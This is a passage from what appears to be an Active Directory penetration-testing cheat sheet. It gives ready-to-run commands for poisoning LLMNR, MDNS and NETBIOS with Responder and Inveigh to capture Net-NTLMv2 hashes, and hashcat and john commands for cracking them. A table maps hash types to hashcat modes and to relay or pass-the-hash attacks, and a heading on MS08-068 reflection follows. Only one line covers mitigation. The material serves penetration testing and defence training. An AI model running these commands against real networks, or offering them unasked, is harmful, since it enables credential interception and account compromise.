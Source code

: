 
**Mitigations**: 

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

### Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```


### Man-in-the-Middle attacks & relaying

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                 | Hashcat | Attack method       |
|---|---|---|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

#### MS08-068 NTLM reflection

NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.
